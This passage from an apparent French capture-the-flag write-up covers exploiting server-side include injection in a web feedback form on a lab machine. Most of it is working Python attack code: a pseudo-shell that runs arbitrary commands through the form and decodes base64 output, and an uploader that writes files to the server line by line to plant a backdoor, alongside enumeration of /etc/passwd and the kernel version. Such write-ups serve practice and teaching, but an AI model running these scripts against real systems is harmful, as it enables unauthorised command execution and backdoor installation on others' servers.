 On a donc de l'exécution de commande mais pas très sexy. L'étape suivante est d'uploader une backdoor digne de ce nom sur le serveur, malheureusement *curl* n'est pas présent et *wget* ne semblait pas aboutir (peut être liée à ma configuration cependant...)  

Pour m'aider j'ai écrit un pseudo-shell qui communique avec le formulaire :  

```python
import requests
from bs4 import BeautifulSoup
from base64 import b64decode

sess = requests.session()

while True:
    cmd = input("$ ").strip()
    if cmd.lower() == "exit":
        break
    params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="{}|base64" --></pre>'.format(cmd)}
    response = requests.post("http://192.168.1.36/receipt.php", data=params)
    soup = BeautifulSoup(response.text, "lxml")
    encoded = soup.find("pre").get_text(strip=True, separator='')
    print(b64decode(encoded).decode())
    print('')
```

La récupération de certaines données ne semblait pas fonctionner, c'est pour cela que je passe par une étape d'encodage puis décodage base64.  

Dans le fichier */etc/passwd* on remarque un utilisateur *starfire*.  

```plain
starfire:x:1000:1000:admin,,,:/home/starfire:/bin/bash
```

Le kernel ne semble pas vulnérable à DirtyC0w :'(   

```plain
Linux ConverterPlus 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:13 UTC 2017 i686 i686 i686 GNU/Linux
```

Pour les problèmes d'upload j'ai créé un script qui converti un fichier local en base64 et écrit sur le serveur ligne par ligne par *echo*. Il suffit après d'utiliser *base64 -d* pour récupérer le fichier uploadé.  

```python
import requests
import os
import sys

try:
    os.unlink("/tmp/temp64.txt")
except FileNotFoundError:
    pass

os.system("base64 '{}' > /tmp/temp64.txt".format(sys.argv[1]))

params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="rm out" --></pre>'}
response = requests.post("http://192.168.1.36/receipt.php", data=params)

with open("/tmp/temp64.txt") as fd:
    for line in fd:
        line = line.strip()
        if not line:
            break
        params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="echo {} >> out" --></pre>'.format(line)}
        response = requests.post("http://192.168.1.36/receipt.php", data=params)
```
